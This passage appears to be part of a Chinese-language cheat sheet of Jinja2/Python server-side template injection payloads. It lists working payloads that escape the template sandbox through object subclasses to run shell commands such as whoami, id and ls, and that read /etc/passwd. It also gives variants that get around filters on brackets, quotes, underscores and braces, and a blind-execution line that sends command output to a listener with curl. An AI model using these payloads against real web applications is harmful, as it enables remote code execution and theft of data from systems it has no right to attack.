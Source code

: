 >>> ''.__class__.__mro__[-1].__subclasses__()[177].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

#### bypass


- bypass ```[]```:

使用getitem pop 方法 bypass

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

- bypass 引号

方法1：利用chr函数

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
```

方法2：利用request
```
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

- bypass ```双下划线__```

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

- bypass {{
  

可以利用{%%}标记

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

相当于盲命令执行，利用curl将执行结果带出来
如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来

```
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~test~{% endif %}
